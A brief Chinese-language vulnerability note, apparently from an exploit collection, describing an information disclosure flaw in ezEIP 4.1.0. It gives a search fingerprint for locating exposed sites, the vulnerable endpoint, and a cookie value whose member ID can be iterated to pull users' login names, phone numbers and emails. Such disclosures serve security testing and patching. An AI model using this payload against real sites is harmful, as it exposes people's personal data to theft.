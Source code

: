 # ezEIP 4.1.0 信息泄露漏洞

# ezEIP 4.1.0 信息泄露漏洞

## 漏洞描述

ezEIP 4.1.0 存在信息泄露漏洞，通过遍历Cookie中的参数值获取敏感信息

## 漏洞影响

```
ezEIP 4.1.0
```

## 网络测绘

```
"ezEIP"
```

## 漏洞复现

漏洞Url为

```plain
/label/member/getinfo.aspx
```

访问时添加Cookie（通过遍历获取用户的登录名电话邮箱等信息）

```plain
WHIR_USERINFOR=whir_mem_member_pid=1;
```

![](/images/202202162312106.png)

